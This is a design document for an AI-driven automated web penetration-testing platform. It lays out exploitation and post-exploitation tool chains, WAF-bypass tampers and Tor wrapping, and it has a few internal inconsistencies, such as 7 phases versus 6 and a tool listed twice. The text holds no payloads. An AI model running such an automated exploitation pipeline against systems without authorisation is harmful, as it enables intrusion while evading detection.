






# Design Document: HackEmpire Upgrade

## Overview

HackEmpire is being upgraded from a 3-phase recon/enum/vuln scanner into a master-level automated web penetration testing and bug bounty platform. The upgrade introduces a 6-phase attack pipeline (Recon → Enumeration → Vulnerability Scanning → Exploitation → Post-Exploitation → Reporting), a 6-tool-per-phase fallback chain, a real-time WebSocket-powered dashboard, an AI engine with deep pentesting knowledge, and an auto-launching terminal that loads all tools on startup.

The existing architecture (BaseTool, ToolManager, Orchestrator, StateManager, Flask web layer) is preserved and extended — no rewrites, only additive upgrades and targeted replacements.

---

## Architecture



---

## Sequence Diagrams

### Main Scan Flow



### Terminal Auto-Launch Flow



---

## Components and Interfaces

### Component 1: PhaseManager

**Purpose**: Manages the 6-phase pipeline, builds the per-target todo list, and coordinates FallbackChains.

**Interface**:
```python
class PhaseManager:
    PHASES: list[Phase]  # 6 phases in order

    def build_todo_list(self, target: str, ai_engine: AIEngine) -> TodoList: ...
    def run_phase(self, phase: Phase, target: str, context: ScanContext) -> PhaseResult: ...
    def get_phase_status(self) -> dict[str, PhaseStatus]: ...
```

**Responsibilities**:
- Instantiate and sequence all 6 phases
- Delegate tool execution to FallbackChain per phase
- Emit real-time phase status updates via RealTimeEmitter
- Feed phase results into StateManager and AIEngine

---

### Component 2: FallbackChain

**Purpose**: Executes up to 6 tools for a phase in priority order, stopping on first success. If all fail, returns a degraded result with error context.

**Interface**:
```python
class FallbackChain:
    def __init__(self, tools: list[BaseTool], emitter: RealTimeEmitter) -> None: ...
    def execute(self, target: str) -> ChainResult: ...
```

**ChainResult**:
```python
@dataclass
class ChainResult:
    phase: str
    succeeded_tool: str | None      # name of tool that produced results
    results: dict[str, Any]         # merged findings
    tool_attempts: list[ToolAttempt]  # per-tool status
    degraded: bool                  # True if all tools failed
```

**Responsibilities**:
- Try each tool in order; emit tool_start / tool_result / tool_error events
- On ToolNotInstalledError: skip and try next
- On ToolTimeoutError: skip and try next
- On success: stop chain, return result
- If all fail: return degraded ChainResult with aggregated errors

---

### Component 3: AIEngine v2

**Purpose**: Provides deep pentesting intelligence — generates the 6-phase todo list, analyzes phase results, and suggests next actions. Backed by a PentestKnowledgeBase.

**Interface**:
```python
class AIEngine:
    def generate_todo_list(self, target: str, context: ScanContext) -> TodoList: ...
    def analyze_phase(self, phase: str, result: PhaseResult, context: ScanContext) -> AIDecision: ...
    def suggest_exploits(self, vulns: list[Vulnerability]) -> list[ExploitSuggestion]: ...
    def generate_report_summary(self, full_state: dict) -> str: ...
```

**PentestKnowledgeBase** (static, embedded):
- OWASP Top 10 vulnerability patterns and detection heuristics
- Common CVE to exploit mapping (Log4Shell, DirtyPipe, etc.)
- Bug bounty methodology (HackerOne/Bugcrowd common findings)
- Tool-specific output interpretation rules
- Severity scoring matrix (CVSS-aligned)

---

### Component 4: RealTimeEmitter

**Purpose**: Bridges the scan engine to the WebSocket layer. All real-time events flow through this single component.

**Interface**:
```python
class RealTimeEmitter:
    def emit_tool_start(self, phase: str, tool: str, target: str) -> None: ...
    def emit_tool_result(self, phase: str, tool: str, result: dict) -> None: ...
    def emit_tool_error(self, phase: str, tool: str, error: str) -> None: ...
    def emit_phase_complete(self, phase: str, result: PhaseResult) -> None: ...
    def emit_todo_update(self, todo: TodoList) -> None: ...
    def emit_scan_complete(self, report: FinalReport) -> None: ...
    def emit_terminal_output(self, data: str) -> None: ...
```

**Event Schema** (SocketIO events):
```python
{
    "event": "tool_result",
    "phase": "recon",
    "tool": "nmap",
    "timestamp": "2024-01-01T00:00:00Z",
    "data": { ... }
}
```

---

### Component 5: TerminalLauncher

**Purpose**: Spawns a PTY-backed shell pre-loaded with all installed tools on PATH, streams I/O over SocketIO to the xterm.js web terminal.

**Interface**:
```python
class TerminalLauncher:
    def launch(self, tools: list[str]) -> TerminalSession: ...
    def write(self, session_id: str, data: str) -> None: ...
    def resize(self, session_id: str, rows: int, cols: int) -> None: ...
    def kill(self, session_id: str) -> None: ...
```

**Responsibilities**:
- Use pty.openpty() or pexpect to spawn /bin/bash with tool PATH pre-configured
- Stream stdout/stderr to SocketIO channel terminal_output
- Accept stdin from SocketIO channel terminal_input
- Handle resize events from xterm.js

---

### Component 6: TodoPlanner

**Purpose**: Generates and tracks the 6-phase x 6-task todo list for a given target. Displayed in real-time on the dashboard.

**Interface**:
```python
class TodoPlanner:
    def generate(self, target: str, ai_engine: AIEngine) -> TodoList: ...
    def mark_task_done(self, phase: str, task_index: int) -> None: ...
    def get_progress(self) -> dict[str, float]: ...  # phase -> 0.0..1.0
```

**TodoList structure**:
```python
@dataclass
class TodoTask:
    index: int
    description: str
    tool: str
    status: Literal["pending", "running", "done", "failed", "skipped"]
    result_summary: str | None

@dataclass
class TodoList:
    target: str
    phases: dict[str, list[TodoTask]]  # 6 phases, 6 tasks each
    created_at: str
```

---

## Data Models

### Extended Phase Enum

```python
class Phase(Enum):
    RECON          = "recon"           # Phase 1
    ENUMERATION    = "enumeration"     # Phase 2
    VULN_SCAN      = "vuln_scan"       # Phase 3
    EXPLOITATION   = "exploitation"    # Phase 4
    POST_EXPLOIT   = "post_exploit"    # Phase 5
    REPORTING      = "reporting"       # Phase 6
```

### Tool Registry (6 tools per phase)

```python
PHASE_TOOLS: dict[str, list[str]] = {
    "recon":        ["nmap", "subfinder", "whatweb", "amass", "theHarvester", "shodan-cli"],
    "enumeration":  ["ffuf", "dirsearch", "gobuster", "feroxbuster", "wfuzz", "dirb"],
    "vuln_scan":    ["nuclei", "nikto", "sqlmap", "wpscan", "testssl", "dalfox"],
    "exploitation": ["metasploit-rpc", "sqlmap-exploit", "xsser", "commix", "hydra", "medusa"],
    "post_exploit": ["linpeas", "winpeas", "mimikatz-remote", "bloodhound", "crackmapexec", "impacket"],
    "reporting":    ["ai-summary", "pdf-generator", "json-export", "html-report", "csv-export", "markdown-export"],
}
```

### ScanContext

```python
@dataclass
class ScanContext:
    target: str
    mode: str
    session_id: str
    phase_results: dict[str, PhaseResult]
    tool_health: dict[str, str]
    todo_list: TodoList | None
    ai_decisions: dict[str, AIDecision]
    started_at: str
```

### Vulnerability (extended)

```python
@dataclass
class Vulnerability:
    name: str
    severity: Literal["info", "low", "medium", "high", "critical"]
    confidence: float          # 0.0 to 1.0
    target: str
    url: str | None
    cve_ids: list[str]
    cwe_ids: list[str]
    evidence: str
    tool_sources: list[str]    # tools that found this
    exploit_available: bool
    remediation: str
    cvss_score: float | None
```

---

## Algorithmic Pseudocode

### Main Orchestration Algorithm

```pascal
ALGORITHM run_full_scan(config)
INPUT: config of type Config (target, mode, ai_key, web_enabled)
OUTPUT: FinalReport

BEGIN
  ASSERT config.target IS valid_domain_or_ip

  session    <- create_session(config)
  emitter    <- RealTimeEmitter(socketio)
  ai         <- AIEngine(api_key=config.ai_key, knowledge_base=PENTEST_KB)
  planner    <- TodoPlanner()

  todo <- planner.generate(config.target, ai)
  emitter.emit_todo_update(todo)

  IF config.web_enabled THEN
    terminal <- TerminalLauncher.launch(ALL_TOOL_NAMES)
  END IF

  context <- ScanContext(target=config.target, todo_list=todo)

  FOR each phase IN [RECON, ENUMERATION, VULN_SCAN, EXPLOITATION, POST_EXPLOIT, REPORTING] DO
    ASSERT phase IS valid_phase

    tools  <- build_tool_instances(PHASE_TOOLS[phase])
    chain  <- FallbackChain(tools, emitter)

    chain_result <- chain.execute(config.target)

    ai_decision <- ai.analyze_phase(phase, chain_result, context)

    context.phase_results[phase] <- chain_result
    planner.mark_phase_done(phase, chain_result)
    emitter.emit_phase_complete(phase, chain_result)

    state_bridge.write_state(context)
  END FOR

  report <- generate_final_report(context, ai)
  emitter.emit_scan_complete(report)

  ASSERT report.phases_completed = 6
  RETURN report
END
```

**Preconditions:**
- config.target is a valid domain or IP address
- At least one tool per phase is installed
- SocketIO server is running if web_enabled

**Postconditions:**
- All 6 phases attempted (degraded results allowed)
- report.phases_completed >= 1
- State persisted to disk
- All SocketIO events emitted

**Loop Invariants:**
- context.phase_results contains results for all completed phases
- todo_list progress is monotonically increasing

---

### FallbackChain Execution Algorithm

```pascal
ALGORITHM FallbackChain.execute(target)
INPUT: target (string), tools list[BaseTool] (max 6)
OUTPUT: ChainResult

BEGIN
  ASSERT tools IS non_empty
  ASSERT target IS non_empty_string

  attempts       <- []
  merged_results <- empty_result()

  FOR i FROM 0 TO len(tools) - 1 DO
    tool <- tools[i]
    emitter.emit_tool_start(phase, tool.name, target)

    TRY
      result <- tool.run(target)
      ASSERT result IS valid_dict

      merged_results <- merge(merged_results, result)
      attempts.append(ToolAttempt(tool.name, "success"))
      emitter.emit_tool_result(phase, tool.name, result)

      RETURN ChainResult(
        succeeded_tool = tool.name,
        results        = merged_results,
        tool_attempts  = attempts,
        degraded       = false
      )

    CATCH ToolNotInstalledError AS e
      attempts.append(ToolAttempt(tool.name, "not_installed"))
      emitter.emit_tool_error(phase, tool.name, str(e))
      CONTINUE

    CATCH ToolTimeoutError AS e
      attempts.append(ToolAttempt(tool.name, "timeout"))
      emitter.emit_tool_error(phase, tool.name, str(e))
      CONTINUE

    CATCH ToolExecutionError AS e
      attempts.append(ToolAttempt(tool.name, "failed"))
      emitter.emit_tool_error(phase, tool.name, str(e))
      CONTINUE
    END TRY
  END FOR

  RETURN ChainResult(
    succeeded_tool = null,
    results        = merged_results,
    tool_attempts  = attempts,
    degraded       = true
  )
END
```

**Preconditions:**
- tools list has 1 to 6 elements
- Each tool implements BaseTool interface

**Postconditions:**
- Returns ChainResult in all cases (never raises)
- degraded=false iff at least one tool succeeded
- tool_attempts length equals number of tools tried

**Loop Invariants:**
- len(attempts) == i at start of iteration i
- merged_results is a valid (possibly empty) result dict

---

### AI Todo Generation Algorithm

```pascal
ALGORITHM AIEngine.generate_todo_list(target, context)
INPUT: target (string), context (ScanContext)
OUTPUT: TodoList (6 phases x 6 tasks)

BEGIN
  ASSERT target IS non_empty_string

  prompt   <- build_todo_prompt(target, PENTEST_KB, context)
  response <- ai_client.send_request(prompt)

  IF response.status_code != 200 OR response.raw_text IS empty THEN
    RETURN PENTEST_KB.get_default_todo(target)
  END IF

  parsed <- response_parser.extract_todo(response.raw_text)

  IF parsed IS invalid THEN
    RETURN PENTEST_KB.get_default_todo(target)
  END IF

  FOR each phase IN parsed.phases DO
    ASSERT len(phase.tasks) = 6
    FOR each task IN phase.tasks DO
      ASSERT task.description IS non_empty
      ASSERT task.tool IN KNOWN_TOOLS
    END FOR
  END FOR

  RETURN parsed
END
```

---

## Key Functions with Formal Specifications

### FallbackChain.execute(target)

**Preconditions:**
- target is a non-empty string (domain or IP)
- self.tools is a non-empty list of BaseTool instances
- Each tool's phase attribute matches self.phase

**Postconditions:**
- Returns ChainResult (never raises)
- result.degraded == False iff result.succeeded_tool is not None
- len(result.tool_attempts) <= len(self.tools)
- All SocketIO events for attempted tools have been emitted

**Loop Invariants:**
- len(attempts) == i at start of iteration i
- merged_results is a valid (possibly empty) result dict

---

### AIEngine.generate_todo_list(target, context)

**Preconditions:**
- target is a valid domain or IP
- self._knowledge_base is initialized

**Postconditions:**
- Returns TodoList with exactly 6 phases
- Each phase has exactly 6 TodoTask entries
- All tasks have status == "pending" initially
- Falls back to static KB template if AI call fails

---

### RealTimeEmitter.emit_tool_result(phase, tool, result)

**Preconditions:**
- phase is a valid Phase value
- tool is a non-empty string
- result is a JSON-serializable dict

**Postconditions:**
- SocketIO event "tool_result" emitted to all connected clients
- Event payload includes phase, tool, timestamp, data
- No exception raised (errors logged, not propagated)

---

### TerminalLauncher.launch(tools)

**Preconditions:**
- Running on a POSIX system with /bin/bash
- pty module available

**Postconditions:**
- Returns TerminalSession with valid session_id
- PTY process is running
- SocketIO channel "terminal_output" is active
- All tool binaries are on the shell's PATH

---

## Example Usage

```python
# CLI usage
config = Config(
    target="example.com",
    mode="pro",
    ai_key="sk-...",
    web_enabled=True,
)
orchestrator = OrchestratorV2(config=config, logger=logger)
orchestrator.initialize()
report = orchestrator.run()
```

```javascript
// Real-time events via SocketIO (frontend)
socket.on("tool_result", (data) => {
    updatePhaseCard(data.phase, data.tool, data.data);
    updateTodoItem(data.phase, data.tool, "done");
});

socket.on("phase_complete", (data) => {
    markPhaseComplete(data.phase);
    showAIDecision(data.ai_decision);
});

socket.on("terminal_output", (data) => {
    term.write(data);  // xterm.js
});
```

```
# REST API — start scan
POST /api/scan/start
{
    "target": "example.com",
    "mode": "pro",
    "ai_key": "sk-..."
}

# REST API — get current state
GET /api/state

# REST API — get todo list
GET /api/todo
```

---

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system — essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Property 1: Full Scan Never Raises

*For any* valid target string, run_full_scan(target) SHALL return a FinalReport without raising an exception.

**Validates: Requirements 1.2, 1.4**

### Property 2: FallbackChain Stops on First Success

*For any* list of tools where tool[i] succeeds, FallbackChain.execute() SHALL stop after tool[i] and SHALL NOT attempt tool[i+1].

**Validates: Requirements 2.1**

### Property 3: FallbackChain Degraded on All Failures

*For any* list of 1 to 6 tools where all tools raise exceptions, FallbackChain.execute() SHALL return a ChainResult with degraded=True.

**Validates: Requirements 2.5**

### Property 4: FallbackChain Never Raises

*For any* tool list and target, FallbackChain.execute() SHALL return a ChainResult and SHALL NOT raise an exception.

**Validates: Requirements 2.6**

### Property 5: Degraded Iff No Succeeded Tool

*For any* ChainResult r, r.degraded SHALL equal True if and only if r.succeeded_tool is None.

**Validates: Requirements 2.7**

### Property 6: TodoList Structure Invariant

*For any* target, AIEngine.generate_todo_list() SHALL return a TodoList with exactly 7 phases, each containing exactly 6 tasks.

**Validates: Requirements 3.1**

### Property 7: AI Fallback on API Failure

*For any* scenario where the AI API call fails or returns an empty response, AIEngine.generate_todo_list() SHALL return a valid TodoList derived from PentestKnowledgeBase.

**Validates: Requirements 3.2**

### Property 8: RealTimeEmitter Never Raises

*For any* sequence of emit_* calls in any SocketIO connection state, RealTimeEmitter SHALL NOT raise an exception.

**Validates: Requirements 4.6, 4.7**

### Property 9: TodoPlanner Progress Bounds

*For any* TodoPlanner state, get_progress() SHALL return per-phase float values between 0.0 and 1.0 inclusive.

**Validates: Requirements 3.6**

### Property 10: WafDetector Never Raises

*For any* target string, WafDetector.detect() SHALL return a WafResult and SHALL NOT raise an exception.

**Validates: Requirements 7.2**

### Property 11: WafBypassStrategy Returns Tampers for Known Vendors

*For any* known WAF vendor string (cloudflare, akamai, modsecurity, imperva, f5, barracuda, sucuri), WafBypassStrategy.get_sqlmap_tampers() SHALL return a non-empty list of tamper script names.

**Validates: Requirements 7.6**

### Property 12: ToolVenvManager Idempotence

*For any* tool name and package list, calling ToolVenvManager.ensure_venv() twice SHALL return the same Python interpreter path without recreating the environment.

**Validates: Requirements 6.2**

### Property 13: TorManager wrap_command Does Not Mutate Input

*For any* command list, TorManager.wrap_command() SHALL return a new list with proxychains4 prepended and SHALL NOT modify the original input list.

**Validates: Requirements 9.5**

### Property 14: AegisBridge Never Raises

*For any* target and phase, AegisBridge.run() SHALL return a ChainResult and SHALL NOT raise an exception.

**Validates: Requirements 10.3**

### Property 15: XSSMethodology Deduplicates Findings

*For any* set of URLs, XSSMethodology.run() SHALL return a list of Vulnerability objects with no duplicates.

**Validates: Requirements 11.6**

### Property 16: Vulnerability Severity Invariant

*For any* Vulnerability object produced by the system, the severity field SHALL be one of: "info", "low", "medium", "high", "critical".

**Validates: Requirements 16.2**

### Property 17: Vulnerability Confidence Bounds

*For any* Vulnerability object produced by the system, the confidence field SHALL be a float between 0.0 and 1.0 inclusive.

**Validates: Requirements 16.3**

### Property 18: Export MIME Type Correctness

*For any* valid format string (pdf, json, html, markdown, csv), GET /api/export/{format} SHALL return a response with the correct MIME type for that format.

**Validates: Requirements 15.1, 15.2, 15.3, 15.4, 15.5**

### Property 19: TerminalSession Unique IDs

*For any* set of concurrent terminal sessions, each session SHALL have a unique session_id.

**Validates: Requirements 5.6**

---

## Error Handling

### Error Scenario 1: All 6 tools in a phase fail

**Condition**: Every tool in a phase's FallbackChain raises an exception
**Response**: Return ChainResult(degraded=True) with empty results; emit phase_degraded SocketIO event
**Recovery**: Orchestrator continues to next phase with degraded context; AI notes missing data in analysis

### Error Scenario 2: AI API unreachable

**Condition**: AIClient.send_request() returns status_code=0 or network error
**Response**: AIEngine falls back to PentestKnowledgeBase.get_default_todo() and static analysis
**Recovery**: Scan continues without AI guidance; todo list uses static template; report notes AI unavailability

### Error Scenario 3: SocketIO client disconnects mid-scan

**Condition**: WebSocket connection drops during active scan
**Response**: RealTimeEmitter catches SocketIO errors silently; scan continues unaffected
**Recovery**: On reconnect, client fetches current state via GET /api/state; missed events replayed from state

### Error Scenario 4: Terminal PTY spawn fails

**Condition**: pty.openpty() fails (non-POSIX system or permission error)
**Response**: TerminalLauncher.launch() returns None; web terminal shows error message
**Recovery**: Scan continues normally; terminal feature disabled for this session

### Error Scenario 5: Tool produces malformed output

**Condition**: tool.parse_output() raises or returns unexpected structure
**Response**: FallbackChain catches exception, records "parse_error" in tool_attempts, tries next tool
**Recovery**: Partial results from other tools in chain are still used

---

## Testing Strategy

### Unit Testing Approach

- FallbackChain: mock tools with controlled success/failure; verify chain stops on first success and returns degraded on all failures
- AIEngine: mock AIClient; verify fallback to KB on API failure; verify todo structure validation
- RealTimeEmitter: mock SocketIO; verify all event types are emitted with correct schema
- TerminalLauncher: mock pty; verify session creation and I/O routing
- TodoPlanner: verify 6x6 structure invariant; verify progress tracking

### Property-Based Testing Approach

**Property Test Library**: hypothesis

- For any list of 1 to 6 tools where all raise exceptions, FallbackChain.execute() returns degraded=True
- For any valid target string, generate_todo_list() returns exactly 6 phases with 6 tasks each
- For any ChainResult, degraded == (succeeded_tool is None) is always true
- For any sequence of emit_* calls, no exception is raised regardless of SocketIO state

### Integration Testing Approach

- End-to-end scan with mock tools: verify all 6 phases complete, state is persisted, SocketIO events received
- Web dashboard: verify real-time updates appear within 500ms of tool completion
- Terminal: verify PTY I/O round-trip (input to shell to output to xterm.js)

---

## Performance Considerations

- FallbackChain runs tools sequentially within a phase (safety); phases run sequentially (dependency chain)
- SocketIO events are emitted asynchronously (non-blocking) using flask-socketio with async_mode="threading"
- Terminal PTY I/O uses a dedicated thread per session to avoid blocking the scan loop
- State writes to disk are atomic (write to .tmp then rename) — same pattern as existing state_bridge.py
- AI calls have a 25s timeout with 3-retry exponential backoff (existing AIClient behavior preserved)
- Tool timeout per tool: configurable via HACKEMPIRE_TOOL_TIMEOUT_S env var (default 60s)

---

## Security Considerations

- All tool commands use subprocess.run(..., shell=False) — no shell injection possible
- Target validation: domain/IP regex check before any tool execution (existing validator.py extended)
- Exploitation phase tools (sqlmap, metasploit) require explicit --mode=exploit flag; disabled by default
- Terminal PTY is bound to 127.0.0.1 only; never exposed on public interfaces
- AI prompts never include raw tool output that could contain prompt injection; output is JSON-parsed first
- SocketIO sessions use signed cookies (SECRET_KEY from env); terminal sessions require same session token
- PDF/HTML reports sanitize all user-controlled strings before rendering

---

## Dependencies

New Python dependencies to add to requirements.txt:

```
flask-socketio>=5.3.0
python-socketio>=5.10.0
eventlet>=0.35.0
flask-cors>=4.0.0
```

New system tools to add to TOOL_INSTALL_SPECS:

```
amass, theHarvester, gobuster, feroxbuster, wfuzz, dirb,
nikto, sqlmap, wpscan, testssl.sh, dalfox,
hydra, medusa, crackmapexec, impacket
```

Frontend additions (CDN, no build step):
- xterm.js v5 (WebSocket terminal)
- socket.io-client v4 (real-time events)
- Chart.js v4 (live progress charts)

---

## Upgrade 1: Latest 2025 Tool Registry

The existing `PHASE_TOOLS` registry is replaced with the current real-world bug bounty toolset (36 tools, 6 per phase). The `ToolInstallSpec` entries in `tool_installer.py` are extended to match.

```python
PHASE_TOOLS_2025: dict[str, list[str]] = {
    "recon":        ["subfinder", "amass", "httpx", "dnsx", "shuffledns", "github-subdomains"],
    "url_discovery":["katana", "gau", "waybackurls", "hakrawler", "gospider", "cariddi"],
    "enumeration":  ["feroxbuster", "ffuf", "dirsearch", "arjun", "kiterunner", "paramspider"],
    "vuln_scan":    ["nuclei", "afrog", "nikto", "dalfox", "ghauri", "testssl"],
    "exploitation": ["sqlmap", "xsstrike", "commix", "caido", "metasploit-rpc", "ghauri"],
    "post_exploit": ["linpeas", "crackmapexec", "impacket", "bloodhound", "trufflehog", "jsluice"],
    "reporting":    ["ai-summary", "pdf-generator", "html-report", "json-export", "markdown-export", "csv-export"],
}
```

### Install Specs (additions to TOOL_INSTALL_SPECS)

```python
# Go-based tools (installed via `go install`)
"httpx":             ToolInstallSpec(name="httpx",             method="go", package="github.com/projectdiscovery/httpx/cmd/httpx@latest"),
"dnsx":              ToolInstallSpec(name="dnsx",              method="go", package="github.com/projectdiscovery/dnsx/cmd/dnsx@latest"),
"shuffledns":        ToolInstallSpec(name="shuffledns",        method="go", package="github.com/projectdiscovery/shuffledns/cmd/shuffledns@latest"),
"katana":            ToolInstallSpec(name="katana",            method="go", package="github.com/projectdiscovery/katana/cmd/katana@latest"),
"hakrawler":         ToolInstallSpec(name="hakrawler",         method="go", package="github.com/hakluke/hakrawler@latest"),
"gospider":          ToolInstallSpec(name="gospider",          method="go", package="github.com/jaeles-project/gospider@latest"),
"feroxbuster":       ToolInstallSpec(name="feroxbuster",       method="apt", package="feroxbuster"),
"kiterunner":        ToolInstallSpec(name="kr",                method="go", package="github.com/assetnote/kiterunner/cmd/kr@latest"),
"afrog":             ToolInstallSpec(name="afrog",             method="go", package="github.com/zan8in/afrog/cmd/afrog@latest"),
"dalfox":            ToolInstallSpec(name="dalfox",            method="go", package="github.com/hahwul/dalfox/v2@latest"),
"jsluice":           ToolInstallSpec(name="jsluice",           method="go", package="github.com/BishopFox/jsluice/cmd/jsluice@latest"),
"trufflehog":        ToolInstallSpec(name="trufflehog",        method="go", package="github.com/trufflesecurity/trufflehog/v3@latest"),
# Python-based tools (installed into per-tool venv — see ToolVenvManager)
"gau":               ToolInstallSpec(name="gau",               method="go", package="github.com/lc/gau/v2/cmd/gau@latest"),
"waybackurls":       ToolInstallSpec(name="waybackurls",       method="go", package="github.com/tomnomnom/waybackurls@latest"),
"arjun":             ToolInstallSpec(name="arjun",             method="pip", package="arjun"),
"paramspider":       ToolInstallSpec(name="paramspider",       method="pip", package="paramspider"),
"xsstrike":          ToolInstallSpec(name="xsstrike",          method="git", package="https://github.com/s0md3v/XSStrike.git", git_dest="/opt/xsstrike"),
"commix":            ToolInstallSpec(name="commix",            method="git", package="https://github.com/commixproject/commix.git", git_dest="/opt/commix"),
"ghauri":            ToolInstallSpec(name="ghauri",            method="pip", package="ghauri"),
"cariddi":           ToolInstallSpec(name="cariddi",           method="go", package="github.com/edoardottt/cariddi/cmd/cariddi@latest"),
"github-subdomains": ToolInstallSpec(name="github-subdomains", method="go", package="github.com/gwen001/github-subdomains@latest"),
"bloodhound":        ToolInstallSpec(name="bloodhound",        method="pip", package="bloodhound"),
"impacket":          ToolInstallSpec(name="impacket",          method="pip", package="impacket"),
"crackmapexec":      ToolInstallSpec(name="crackmapexec",      method="pip", package="crackmapexec"),
"linpeas":           ToolInstallSpec(name="linpeas",           method="git", package="https://github.com/carlospolop/PEASS-ng.git", git_dest="/opt/peass"),
"caido":             ToolInstallSpec(name="caido",             method="git", package="https://github.com/caido/caido.git", git_dest="/opt/caido"),
"testssl":           ToolInstallSpec(name="testssl.sh",        method="git", package="https://github.com/drwetter/testssl.sh.git", git_dest="/opt/testssl"),
"nikto":             ToolInstallSpec(name="nikto",             method="apt", package="nikto"),
"sqlmap":            ToolInstallSpec(name="sqlmap",            method="apt", package="sqlmap"),
"amass":             ToolInstallSpec(name="amass",             method="apt", package="amass"),
```

The `InstallMethod` literal is extended to include `"go"`:

```python
InstallMethod = Literal["apt", "pip", "git", "go"]

# _run_go() implementation in ToolInstaller:
def _run_go(self, spec: ToolInstallSpec) -> None:
    cmd = ["go", "install", spec.package]
    self._run_subprocess(cmd, tool_name=spec.name)
```

---

## Upgrade 2: Aegis Integration (AegisBridge)

